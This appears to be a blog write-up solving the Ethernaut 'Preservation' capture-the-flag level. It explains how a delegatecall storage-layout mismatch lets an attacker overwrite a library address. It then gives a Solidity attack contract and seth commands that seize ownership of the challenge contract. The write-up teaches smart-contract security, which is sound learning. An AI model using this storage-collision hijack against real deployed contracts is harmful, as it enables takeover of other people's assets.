 ```yaml
---
layout: post
title:  "OpenZeppelin Ethernaut 16: Preservation"
date:   2022-07-08 17:05:16 +0800
---
```

The preservation challenge from Ethernaut is designed to test your understanding of storage and how storage variable declaration works when it comes to delegate calls.

The challenge text is: _"This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored. The goal of this level is for you to claim ownership of the instance you are given."_

Our objective is to become the owner of the contract, but having a look at the `LibraryContract` we see that `storedTime` is being changed, not owner.

However, the security issue with this contract is that order in which variable are declared matter. In delegate contracts the storage variable declaration order needs to match the caller. In this case it doesn't, we can see that `storedTime` in `LibraryContract` aligns with `timeZone1Library` in `Preservation`. This means that when the `LibraryContract` attempts to write to `storedTime` through the delegated call, it will actually write to the storage slot associated with `timeZone1Library`.

So we are able to change `timeZone1Library`, what can we do with this? Well we are able to control an address that is used for delegated calls so we can do whatever we want really. But since we want to become the owner of the contract, let's do that. We have to deploy a smart contract that when `setTime()` is called, it changes the `owner` storage variable to our address.

Here is our malicious contract:
{% highlight solidity %}
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.6;

contract Attack {
        address public timeZone1Library;
        address public timeZone2Library;
        address public owner;

        function setTime(uint _time) public {
                owner = address(0xd4057e08B9d484d70C5977784fC1f6D82d45ff67);
        }
}
{% endhighlight %}

So we have our malicious contract that we've deployed, so let's start the process of attacking our target contract.

Firstly we need to change the storage slot corresponding to `timeZone1Library` with the address of our malicious contract.
```
dev@dev:~/dev/ctf/ethernaut/16$ seth send 0xe1C918e75B1EeB66F6AeABcCc25f15C5a387bB60 "setFirstTime(uint)" 0x7de4414ee9c9Dead0314765ec77Ee39e6e244cF7
```

Now our malicious address will be called when the contract does the delegated call in the function `setFirstTime()`. So let's call it. Note that the input for this function call doesn't matter, so I just choose to use `0x1`.
```
dev@dev:~/dev/ctf/ethernaut/16$ seth send 0xe1C918e75B1EeB66F6AeABcCc25f15C5a387bB60 "setFirstTime(uint)" 0x1
```

And now we're the owner of the contract! Let's verify just to be sure:
```
dev@dev:~/dev/ctf/ethernaut/16$ seth call 0xe1C918e75B1EeB66F6AeABcCc25f15C5a387bB60 "owner()(address)"
0xd4057e08B9d484d70C5977784fC1f6D82d45ff67
```
